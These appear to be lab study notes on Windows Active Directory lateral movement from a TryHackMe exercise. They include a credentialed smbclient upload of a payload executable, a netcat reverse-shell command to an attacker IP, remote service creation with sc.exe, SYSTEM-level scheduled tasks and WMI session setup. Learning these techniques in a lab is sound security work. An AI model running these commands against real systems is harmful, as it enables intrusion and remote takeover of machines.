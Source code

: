 ```bash
smbclient -c 'put INVISIBLE_PILLOW.exe' -U t1_leonard.summers -W ZA '//10.200.104.201/admin$/' EZpass4ever
```

Since we only have SSH access and a runas would just spawn a new terminal in the current GUI session we don't have access to, can just spawn a reverse shell with the credentials.
```powershell
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.100.173 4443"
```

```powershell
sc.exe \\thmiis.za.tryhackme.com create THMService-AD-LAT-49 binPath= "%windir%\INVISIBLE_PILLOW.exe" start=auto

#Windir = C:\Windows\

sc.exe \\thmiis.za.tryhackme.com start THMService-AD-LAT-49
```
#### SchTasks Remotely

```powershell
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to exec>" /sc ONCE /sd 01/01/1970 /st 00:00

/sc - schedule type
/sd - start date
/st - start time

Since system runs the schtask, its a blind attack

Delete Scheduled Task
schtasks /S target /TN "THMtask1" /DELETE /F
```

### WMI
* DCOM
	* DCERPC 135/TCP 49152-65535/TCP, like for sc.exe
* Wsman
	* WinRM - 5985/TCP(WinRM HTTP) or 5986/TCP(WinRM HTTPS)
#### Setup
Powershell Credential
Setup Secure Password Powershell
```powershell
$username = 'Administrator' 
$securePassword = Read-Host -AsSecureString -Prompt 'Enter Password' 
$credential = New-Object System.Management.Automation.PSCredential($username, $securePassword)
```

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-CimSession -ComputerName Target -Credential $credential -SessionOpt $Opt -ErrorAction Stop
```

